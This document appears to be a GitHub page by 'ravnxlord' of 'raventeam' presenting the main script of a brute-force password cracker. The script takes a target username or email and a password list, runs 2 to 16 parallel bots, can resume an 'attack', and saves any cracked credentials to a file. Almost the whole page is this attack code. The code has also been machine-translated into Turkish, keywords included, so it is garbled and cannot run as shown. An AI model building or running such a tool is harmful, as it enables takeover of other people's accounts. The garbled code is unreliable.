 # raventeam
Merhaba ben ravnxlord

dan  os . yol  içe aktarma  var
dan  lib . bruter  ithalatı  Bruter
dan  lib . oturum  içe aktarma  Oturumu 
dan  lib . görüntüleme  içe aktarma  Ekran
dan  lib . const  içe aktarma  kimlik bilgileri , modlar
dan  argparse  ithalat  ArgumentParser , ArgumentTypeError


sınıf  Motor ( nesne ):

    def  __init__ ( self , username , thread , passlist_path , is_color ):  
        öz . bruter  =  Yok 
        öz . resume  =  False 
        öz . is_alive  =  Doğru 
        öz . thread  =  thread
        öz . kullanıcı adı  =  kullanıcı adı
        öz . passlist_path  =  passlist_path
        öz . display  =  Ekran ( is_color = is_color )
        öz . session  =  Session ( kullanıcı adı , passlist_path )
    
    def  passlist_path_exists ( self ):
        eğer  değil  var ( öz . passlist_path ):
            öz . ekran . uyarı ( 'Şifre listesine giden geçersiz yol' )
             Yanlış dönüş
        dönüş  Doğru 
    
    def  session_exists ( kendi ):
         kendine dön . oturum . var
    
    def  create_bruter ( self ):
        öz . Bruter  =  Bruter ( öz . adı , kendi kendine . parçacığı , kendi kendine . passlist_path , kendi kendine . devam )
    
    def  get_user_resp ( öz ):
         kendine dön . ekran . komut istemi ( 'Saldırıya devam etmek ister misiniz? [y / n]:' )
    
    def  write_to_file ( self , password ):
        ile  açık ( kimlik bilgileri , 'kısmındaki' ) olarak  f :
            data  =  'Kullanıcı Adı: {} \ n Şifre: {} \ n \ n ' . biçimi ( öz . kullanıcı adı . Başlık (), şifre )
            f . yazma ( veri )

    def  start ( self ):
        eğer  değil  kendini . passlist_path_exists ():
            öz . is_alive  =  False 
        
        eğer  öz . session_exists () ve  self . is_alive :
            resp  =  Yok 

            dene :
                resp  =  öz . get_user_resp ()
            hariç :
                öz . is_alive  =  False 
                        
            eğer  respin  ve  öz . is_alive :
                eğer  resp . şerit (). alt () ==  'y' :
                    öz . resume  =  True 
        
        eğer  öz . is_alive :
            öz . create_bruter ()

            dene :
                öz . bruter . başlangıç ()
             KeyboardInterrupt hariç :
                öz . bruter . durdur ()
                öz . bruter . ekran . shutdown ( self . bruter . last_password ,
                                            öz . bruter . password_manager . girişimleri , len ( öz . Bruter . tarayıcılar ))
            nihayet :
                öz . durdur ()
    
    def  stop ( kendi kendine ):
        eğer  öz . is_alive :

            öz . bruter . durdur ()
            öz . is_alive  =  False 

            eğer  öz . bruter . password_manager . is_read  ve  self değil  . bruter . is_found ve self değil . bruter . password_manager . list_size :   
                öz . bruter . ekran . stats_not_found ( self . bruter . last_password ,
                                                    öz . bruter . password_manager . girişimleri , len ( öz . Bruter . tarayıcılar ))
            
            eğer  öz . bruter . is_found :
                öz . write_to_file ( self . bruter . parola )
                öz . bruter . ekran . stats_found ( kendine . bruter . şifre ,
                                                öz . bruter . password_manager . girişimleri , len ( öz . Bruter . tarayıcılar ))
                

def  valid_int ( n ):
    eğer  değil  n . isdigit ():
        yükseltmek  ArgumentTypeError ( 'mod bir sayı olmalıdır' )

    n  =  int ( n )

    eğer  n  >  3 :
        yükseltmek  ArgumentTypeError ( 'bir mod için en fazla 3 konumundadır' )

    eğer  n  <  0 :
         ArgumentTypeError değerini yükseltin ( 'bir mod için minimum 0'dır' )

    dönüş  n

def  args ():
    args  =  ArgumentParser ()
    args . add_argument ( 'kullanıcı adı' , yardım = 'e-posta veya kullanıcı adı' )
    args . add_argument ( 'passlist' , help = 'şifre listesi' )
    args . add_argument ( '-nc' , '--no-color' , dest = 'color' , action = 'store_true' , help = 'renkleri devre dışı bırak' )
    args . add_argument ( '-m' , '--mode' , default = 2 , type = valid_int , help = 'modlar: 0 => 16 bot; 1 => 8 bot; 2 => 4 bot; 3 => 2 bot' )
    dönmek  args . parse_args ()


eğer  __name__  ==  '__main__' :
    arugments  =  args ()
    mod  =  arugments . mod 
    kullanıcı adı  =  tartışmalar . Kullanıcı adı
    passlist  =  arugments . geçiş listesi
    is_color  =  Doğru  eğer  değil  arugments . başka renk  Yanlış  
    Motor ( kullanıcı adı , modlar [ mod ], şifre listesi , is_color ). başlangıç ()
